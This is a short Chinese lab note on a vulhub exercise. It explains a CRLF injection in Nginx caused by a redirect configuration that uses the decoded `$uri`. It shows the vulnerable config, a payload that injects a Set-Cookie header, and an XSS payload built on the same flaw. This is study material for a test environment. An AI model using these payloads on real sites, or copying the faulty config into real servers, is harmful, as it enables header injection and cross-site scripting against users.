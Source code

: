 ## vulhub环境解析

Nginx会将`$uri`进行解码，导致传入%0d%0a即可引入换行符，造成CRLF注入漏洞。

错误的配置文件示例（原本的目的是为了让http的请求跳转到https上）：

```
location / {
    return 302 https://$host$uri;
}
```

Payload: `http://your-ip:8080/%0d%0aSet-Cookie:%20a=1`，可注入Set-Cookie头

<img src="图片\Snipaste_2023-02-08_10-45-15.png" alt="Snipaste_2023-02-08_10-45-15" style="zoom:80%;" />

构造一个XSS漏洞

```
/%0d%0a%0d%0a<img src=1 onerror=alert(/xss/)>/
```

<img src="图片\Snipaste_2023-02-08_10-49-05.png" alt="Snipaste_2023-02-08_10-49-05" style="zoom:80%;" />
